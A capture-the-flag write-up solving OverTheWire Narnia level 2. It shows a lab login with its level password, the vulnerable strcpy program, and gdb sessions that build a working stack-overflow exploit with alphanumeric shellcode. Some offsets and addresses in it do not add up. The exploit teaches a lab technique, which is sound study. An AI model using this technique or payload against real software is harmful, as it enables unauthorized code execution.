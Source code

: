 ```bash
user@host:~$ ssh narnia2@narnia.labs.overthewire.org -p 2226
nairiepecu
```

Just like in level 0 and 1 we will navigate to the `/narnia` directory, as there were some programs for each level. The source code for the program `narnia2` is (excluding the licensing information):

```c
narnia2@narnia:/narnia$ cat narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}

```

So the program reads back to you what you enter in the terminal?

```sh
narnia2@narnia:/narnia$ ./narnia2 hello
hellonarnia2@narnia:/narnia$
```

Weird. What if we enter more bytes than there are in the buffer? A segmentation fault.

Great.

Let's debug this shit.

```sh
narnia2@narnia:/narnia$ gdb ./narnia2
(gdb) disass main
Dump of assembler code for function main:
   0x0804844b <+0>:     push   %ebp
   0x0804844c <+1>:     mov    %esp,%ebp
   0x0804844e <+3>:     add    $0xffffff80,%esp
   0x08048451 <+6>:     cmpl   $0x1,0x8(%ebp)
   0x08048455 <+10>:    jne    0x8048471 <main+38>
   0x08048457 <+12>:    mov    0xc(%ebp),%eax
   0x0804845a <+15>:    mov    (%eax),%eax
   0x0804845c <+17>:    push   %eax
   0x0804845d <+18>:    push   $0x8048520
   0x08048462 <+23>:    call   0x8048300 <printf@plt>
   0x08048467 <+28>:    add    $0x8,%esp
   0x0804846a <+31>:    push   $0x1
   0x0804846c <+33>:    call   0x8048320 <exit@plt>
   0x08048471 <+38>:    mov    0xc(%ebp),%eax
   0x08048474 <+41>:    add    $0x4,%eax
   0x08048477 <+44>:    mov    (%eax),%eax
   0x08048479 <+46>:    push   %eax
   0x0804847a <+47>:    lea    -0x80(%ebp),%eax
   0x0804847d <+50>:    push   %eax
   0x0804847e <+51>:    call   0x8048310 <strcpy@plt>
   0x08048483 <+56>:    add    $0x8,%esp
   0x08048486 <+59>:    lea    -0x80(%ebp),%eax
   0x08048489 <+62>:    push   %eax
   0x0804848a <+63>:    push   $0x8048534
   0x0804848f <+68>:    call   0x8048300 <printf@plt>
   0x08048494 <+73>:    add    $0x8,%esp
   0x08048497 <+76>:    mov    $0x0,%eax
   0x0804849c <+81>:    leave
   0x0804849d <+82>:    ret
End of assembler dump.
(gdb)
```

Let's see what happens at the end of the program first.

```sh
(gdb) break *0x0804849c
Breakpoint 1 at 0x804849c
(gdb) run $(python -c 'print "0"*128')
Starting program: /narnia/narnia2 $(python -c 'print "0"*128')
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000[Inferior 1 (process 20590) exited normally]
```

If we keep increasing the size of the argument, eventually we will hit a segmentation fault:

```
(gdb) run $(python -c 'print "0"*132')
Starting program: /narnia/narnia2 $(python -c 'print "0"*132')

Program received signal SIGSEGV, Segmentation fault.
0xf7e2a202 in __libc_start_main () from /lib32/libc.so.6
```

Now, the buffer overflow of the  `strcpy` of the `buf` variable hits an address, which is the return code for the program. Let us see whether we can put something there after the overflow, but remember that this works backwards!

```
(gdb) run $(python -c 'print "0"*132 + "\xef\xbe\xad\xde"')
Starting program: /narnia/narnia2 $(python -c 'print "0"*132 + "\xef\xbe\xad\xde"')

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

What we can do now, is load a program of 132 bytes long and exploit the buffer overflow by giving an address instead of just `0xdeadbeef` at the end. The length of our last shell code is 79 bytes.

```
narnia2@narnia:/narnia$ python -c 'print len("hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz")'
79
```

Reserving 4 bytes for a control `0xdeadbeef` at the end, we can prepend 53 characters to our shell code:

```
(gdb) run $(python -c 'print "0"*53 + "hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz" + "\xef\xbe\xad\xde"')
Starting program: /narnia/narnia2 $(python -c 'print "0"*53 + "hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz" + "\xef\xbe\xad\xde"')

Breakpoint 1, 0x0804849c in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0xdeadbeef in ?? ()
```

Now we need to see where our shellcode can start:

```
(gdb) x/40xw $esp-132
0xffffd5bc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5cc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5dc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5ec:     0x7a7a6830      0x41597a7a      0x41414141      0x4d483041
0xffffd5fc:     0x304e6830      0x75684e48      0x585a3231      0x5a425a35
0xffffd60c:     0x7568505a      0x58343338      0x5a5a5a35      0x5954505a
0xffffd61c:     0x61616a68      0x61355861      0x50616161      0x61616135
0xffffd62c:     0x616a3561      0x50506161      0x56555451      0x7a4d6157
0xffffd63c:     0xdeadbeef      0x00000000      0xffffd6d4      0xffffd6e0
0xffffd64c:     0x00000000      0x00000000      0x00000000      0xf7fc5000
```

0xffffd5dc

So we should start the shellcode execution at `0xffffd5ec` and give that address as a pointer. Let's give it a try!

```
(gdb) run $(python -c 'print "0"*53 + "hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz" + "\xec\xd5\xff\xff"')
Starting program: /narnia/narnia2 $(python -c 'print "0"*53 + "hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz" + "\xec\xd5\xff\xff"')

Breakpoint 1, 0x0804849c in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0xffffd5ec in ?? ()
(gdb) x/40xw $esp-132
0xffffd5bc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5cc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5dc:     0x30303030      0x30303030      0x30303030      0x30303030
0xffffd5ec:     0x7a7a6830      0x41597a7a      0x41414141      0x4d483041
0xffffd5fc:     0x304e6830      0x75684e48      0x585a3231      0x5a425a35
0xffffd60c:     0x7568505a      0x58343338      0x5a5a5a35      0x5954505a
0xffffd61c:     0x61616a68      0x61355861      0x50616161      0x61616135
0xffffd62c:     0x616a3561      0x50506161      0x56555451      0x7a4d6157
0xffffd63c:     0xffffd5ec      0x00000000      0xffffd6d4      0xffffd6e0
0xffffd64c:     0x00000000      0x00000000      0x00000000      0xf7fc5000
```
